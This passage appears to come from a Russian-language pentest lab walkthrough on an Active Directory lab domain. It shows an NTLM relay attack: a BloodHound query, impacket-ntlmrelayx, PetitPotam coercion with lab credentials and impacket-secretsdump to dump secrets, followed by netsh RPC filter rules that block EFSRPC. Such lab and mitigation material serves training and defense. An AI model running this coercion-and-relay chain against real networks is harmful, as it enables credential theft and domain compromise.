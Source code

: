 ```
MATCH p=(m:Computer)-[r:AdminTo]->(n:Computer) RETURN p
```

![](/images/coerce/Pasted%20image%2020250107010256.png)

```
cat /etc/proxychains4.conf
socks4 127.0.0.1 1080

impacket-ntlmrelayx -t 192.168.56.12 -socks
python /home/kali/PetitPotam/PetitPotam.py -u 'khal.drogo' -p 'horse' -d essos.local 192.168.56.200 192.168.56.23
proxychains impacket-secretsdump -no-pass 'essos.local'/'braavos$'@'192.168.56.12'
```

#### Решение

Блокировка EFSRPC с использованием фильтров RPC

Фильтры RPC можно использовать для блокировки (удалённой) функциональности EFSRPC, которую использует PetitPotam. Это можно сделать, заблокировав [UUID интерфейса RPC для EFSRPC](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/1baaad2f-7a84-4238-b113-f32827a39cd2) .

Сначала создайте файл с именем `block_efsr.txt`и поместите в него следующее содержимое:

```
rpc
filter
add rule layer=um actiontype=block
add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e
add filter
add rule layer=um actiontype=block
add condition field=if_uuid matchtype=equal data=df1941c5-fe89-4e79-bf10-463657acf44d
add filter
quit
```

Затем импортируйте фильтр с помощью следующей команды из командной строки с повышенными привилегиями:  
`netsh -f block_efsr.txt`

Текущие фильтры можно просмотреть, выполнив следующую команду:  
`netsh rpc filter show filter`.
